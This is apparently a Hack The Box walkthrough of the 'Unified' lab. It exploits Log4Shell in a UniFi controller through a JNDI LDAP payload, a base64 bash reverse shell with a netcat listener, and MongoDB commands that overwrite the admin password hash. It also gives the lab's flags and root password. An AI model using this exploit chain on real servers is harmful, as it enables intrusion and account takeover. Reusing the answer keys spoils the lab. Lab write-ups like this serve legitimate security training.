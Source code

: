 # Unified
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Which are the first four open ports?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** 22,6789,8080,8443

**2. What is the title of the software that is running running on port 8443?**
![uni](img/unifi.png)
> **Answer:** UniFi Network

**3. What is the version of the software that is running?**
- Access to this via `https://[IP-Address]:8443` will automatedly redirect us to `/manage/account/login?redirect=%2Fmanage`, reveal a login page. The software version is also displayed here.  
![login](img/login.png)
> **Answer:** 6.4.54

**4. What is the CVE for the identified vulnerability?**
- Searching on the Internet about this program's version CVE will show us [this](https://github.com/puzzlepeaches/Log4jUnifi.git). This is about Log4j vulnerabilities in Unifi software, get a reverse shell, and leverage our access to add our own administrative user to the Unifi MongoDB instance.
> **Answer:** CVE-2021-44228

**5. What protocol does JNDI leverage in the injection?**
- Information on this can be found in security write-ups, such as [this one](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/?msockid=1369038a9eec646f38d717dc9ffe65a2) and we have **the protocol, such as “ldap”, “ldaps”, “rmi”, “dns”, “iiop”, or “http”, precedes the attacker domain**
> **Answer:** ldap

**6. What tool do we use to intercept the traffic, indicating the attack was successful?**
> **Answer:** tcpdump

**7. What port do we need to inspect intercepted traffic for?**
- The default port for LDAP is 389, as confirmed [here](https://serverfault.com/questions/682594/which-ports-are-required-in-order-to-authenticate-against-a-ldap-server-in-anoth)
> **Answer:** 389

**8. What port is the MongoDB service running on?**
- Use **Burp Suite** to intercept HTTP traffic. Send the **login** request to **Repeater**
![burp](img/burp.png)
- Change `remember` value to `"${jndi:ldap://[our-IP-Address]/whatever}"`. 
![repeat](img/repeatter.png)
- Before clicking **Send**, run `sudo tcpdump -i tun0 port 389` to capture all packets in port 389
![tcp](img/tcpdump.png)
- Or you can also use **WireShark** for the same purpose
![wire](img/wire.png)
- We see that there are some traffic between our machine and target machine. We can assume this program is vulnerable to **Log4J**.
- Here I use [this tool](https://github.com/veracode-research/rogue-jndi) to exploit this vulnerability. Install some dependencies and run `mvn package` to build it.
![mvn](img/mvn.png)
- Create a reverse shell and convert to Base64 with `echo 'bash -c bash -i >& /dev/tcp/[out-IP-Address]/4444 0>&1' | base64`
- Now run the program with the following payload: `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,[base64-string]}|{base64,-d}|{bash,-i}" --hostname "[our-IP-Address]"`. It will show some LDAP mappings
![tom](img/tomcat.png)
- Open a new terminal and run `nc -lvnp 4444` to start listening on a port
- Back to the **Burp Suite** Repeater, change value of **remember** to `"${jndi:ldap://[our-IP-Address]:1389/o=tomcat}"`. 
![burp](img/burp-tomcat.png)
- Clicking **Send** and it will start sending LDAP ref resource and Netcat will listen on the port. Now you can excecute commands as `unifi` user.
![nc](img/nc.png)
- You can also create a stable shell with `script /dev/null -c bash`
- Now run `ps aux | grep mongo` to search for processes related to MongoDB
![mong](img/mongo.png)
> **Answer:** 27117

**9. What is the default database name for UniFi applications?**
- Connect to MongoDB with `mongo --port 27117`, run `show databases` to list all databases  
![db](img/dtb.png)
> **Answer:** ace

**10. What is the function we use to enumerate users within the database in MongoDB?**
> **Answer:** db.admin.find()
- Run `mongo --port 27117 ace  --eval "db.admin.find().forEach(printjson);"` to retrieve all documents from the `admin` collection, printing each document in JSON format to the terminal. We can see that user `administrator` will have password (`x_shadow`) saved as SHA-512 
![find](img/find.png)

**11. What is the function we use to update users within the database in MongoDB?**
> **Answer:** db.admin.update()
- So now create a SHA-512 password with `mkpasswd -m SHA-512 [any-password-you-want]`
![make](img/make.png)
- Update the `administrator`'s `x_shadow` to the password we have created by `mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"[new-SHA512-string]"}})'`. 
![update](img/update.png)

**12. What is the password for the root user?**
- Now we can login with as `administrator` with the new password. Navitigate to **Settings**>**Device Authentication** to find the root password.  
![root](img/root.png)
> **Answer:** NotACrackablePassword4U2022

## Submit user flag
- Back to the unifi machine, the user flag should be located in `home/michael`
![flag](img/flag.png)
- **User flag:** 6ced1a6a89e666c0620cdb10262ba127

## Submit root flag
- Use SSH to login as root with the found password  and the flag is here  
![flag](img/ssh.png)  
- **Root flag:** e50bc93c75b634e4b272d2f771c33681
